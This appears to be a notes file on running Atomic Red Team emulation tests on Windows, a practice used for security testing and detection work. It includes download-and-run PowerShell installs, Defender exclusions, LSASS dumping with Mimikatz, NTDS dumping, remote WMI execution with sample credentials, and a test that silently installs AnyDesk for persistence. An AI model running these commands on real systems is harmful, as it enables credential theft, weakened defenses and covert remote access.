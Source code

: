 # Installation

## Install Execution framework

```powershell
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -InstallPath C:\AtomicRedTeam
```

## Import execution framework powershell profile

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
```

## Defender exclusions

```powershell
Add-MpPreference -ExclusionPath "C:\AtomicRedTeam\atomics"
Add-MpPreference -ExclusionPath "C:\AtomicRedTeam\tmp"
```

## Install atomics

```powershell
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicsfolder.ps1' -UseBasicParsing);
Install-AtomicsFolder -InstallPath "C:\AtomicRedTeam" -RepoOwner "redcanaryco" -Branch "master"
```


## Test details

```powershell
Invoke-AtomicTest T1003 -ShowDetails
```

## Run test

```powershell
Invoke-AtomicTest T1053.005 -TestNumbers 1
```

## Run cleanup

```powershell
Invoke-AtomicTest T1053.005 -TestNumbers 1 -Cleanup
```

# OS Credential Dumping: LSASS Memory 

T1003.001 Atomic Test #2 

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2
Invoke-AtomicTest T1003.001 -TestNumbers 2 -CheckPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 2 -GetPrereqs
# Disable Defender Realtime-protection otherwise procdump will hang :/
Invoke-AtomicTest T1003.001 -TestNumbers 2
# Mimikatz check
sekurlsa::minidump C:\Windows\Temp\lsass_dump.dmp
sekurlsa::logonPasswords full
```

Note:

In case you encounter error `ERROR kuhl_m_sekurlsa_acquireLSA ; Key import` you must use older build of Mimikatz or update the VM and retry the dump. Mimikatz usually tries to keep everything working only on latest systems.
https://github.com/gentilkiwi/mimikatz/issues/248

# Windows Management Instrumentation

T1047 Atomic Test #6

```powershell
Invoke-AtomicTest T1047 -TestNumbers 6 -InputArgs @{ "node" = "192.168.40.129"; "user_name" = "IEUser";  "password" = "Passw0rd!"; "process_to_execute" = """cmd /c vssadmin.exe list shadows >> c:\log.txt""" }
```

If you don't have remote machine you can test similar technique locally using Atomic Test #5

```powershell
Invoke-AtomicTest T1047 -TestNumbers 5 -InputArgs @{ "process_to_execute" = """cmd /c vssadmin.exe list shadows >> c:\log.txt""" }
```

# OS Credential Dumping: NTDS

T1003.003 Atomic Test #1 and #2

```powershell
Invoke-AtomicTest T1003.003 -TestNumbers 1,2 -CheckPrereq
Invoke-AtomicTest T1003.003 -TestNumbers 1,2
```

# Remote Access Software

T1219 Atomic Test #2

```powershell
Invoke-AtomicTest T1219 -TestNumbers 2
```

New test:
```yaml
- name: AnyDesk Silent Installation Test on Windows
  description: |
    An adversary may attempt to silently install AnyDesk and use it to establish persistence. This technique was observed in the leaked "manuals" used by operators of Conti ransomware. Download of AnyDesk installer will be at the destination location and ran with --install, --start-with-win and --slilent parameters.
  supported_platforms:
  - windows
  executor:
    command: |
      Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
      $file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
      Start-Process $file1 -ArgumentList "--silent", "--install", "C:\ProgramData\AnyDesk", "--start-with-win";
    cleanup_command: |-
      Start-Process "C:\ProgramData\AnyDesk\AnyDesk.exe" -ArgumentList "--remove", "--silent";
      $file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
      Remove-Item $file1 -ErrorAction Ignore
    name: powershell
    elevation_required: true
```

```
Invoke-AtomicTest T1219 -ShowDetails
Invoke-AtomicTest T1219 -TestNumbers 6
```
